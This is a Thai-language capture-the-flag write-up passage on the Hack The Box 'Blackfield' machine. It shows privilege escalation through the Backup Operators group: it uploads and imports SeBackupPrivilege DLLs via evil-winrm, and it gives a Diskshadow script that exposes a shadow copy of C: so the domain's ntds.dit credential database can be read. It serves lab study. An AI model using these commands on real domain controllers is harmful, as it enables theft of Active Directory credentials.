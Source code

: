 ```powershell


```

> [Backup Operators](https://www.backup4all.com/what-are-backup-operators-kb.html) is a default Windows group that is designed to backup and restore files on the computer using certain methods to read and write all (or most) files on the system.

# Priv Es
## Copy-FileSeBackupPrivilege

Ref: https://github.com/giuliano108/SeBackupPrivilege.git 

เราสามารถใช้ Repo ด้านบนสำหรับดำเนินการใช้สิทธิ Backup ได้ จากนั้นเราจะทำการ upload module จำนวน 2 โมดูลประกอบไปด้วย SeBackupPrivilegeCmdLets.dll และ SeBackupPrivilegeUtils.dll 

```bash
upload SeBackupPrivilegeUtils.dll

upload SeBackupPrivilegeCmdLets.dll

## จากนั้นเราจะ Import-module ผ่าน evil-winrm 
import-module .\SeBackupPrivilegeUtils.dll
import-module .\SeBackupPrivilegeCmdLets.dll
```
เราจะทำการทดสอบอ่านข้อมูลภายใต้ system32 ซึ่งจะเห็นได้ว่าไม่สามารถอ่านได้ แต่เรากลับสามารถ Copy ไฟล์ไปไว้ที่ path ที่กำหนดแล้วอ่านได้ ตามภาพด้านล่าง 
![[Challenge/HTB Challenge/Blackfield/IMG/009.png]]

แต่น่าเสียดายที่เราไม่สามารถทำแบบนี้ได้กับไฟล์ root.txt หรือไฟล์ ntds.dit ได้ 

```
Copy-FileSeBackupPrivilege \users\administrator\desktop\root.txt ice.txt 
```
![[Challenge/HTB Challenge/Blackfield/IMG/010.png]]

## DiskShadow

เครื่องมือที่ดีในการอ่านไฟล์ ntds.dit คือ **Diskshadow.exe** ซึ่งเป็นยูทิลิตี้ของ Microsoft ที่ใช้งานฟังก์ชันของ **Volume Shadow Copy Service (VSS)**
- โดยปกติ Diskshadow ใช้โหมด interactive (แบบพิมพ์คำสั่งสดๆ) แต่หากไม่มี desktop environment (เช่นใน shell ของ pentester) ควรใช้ **script mode** แทน โดยเขียนคำสั่งลงไฟล์ .txt แล้วสั่งให้ Diskshadow ทำตาม
- เป้าหมายคือการสร้าง **Shadow Copy ของไดรฟ์ C:** เพื่อ map เป็นไดรฟ์ใหม่ (เช่น Z:) ซึ่งจะสามารถ **เข้าถึงไฟล์ที่ปกติถูกล็อกอยู่บนไดรฟ์ C:** ได้ เช่น ntds.dit (ฐานข้อมูลของ AD)

อ้างอิงข้อมูลเขียน Script : https://pentestlab.blog/tag/diskshadow/ 

สร้างไฟล์ ==vss.dsh== แล้วนำไป upload บนเครื่องเป้าหมาย

```script
set context persistent nowriters
set metadata c:\programdata\df.cab
set verbose on
add volume c: alias df
create
expose %df% z:
```
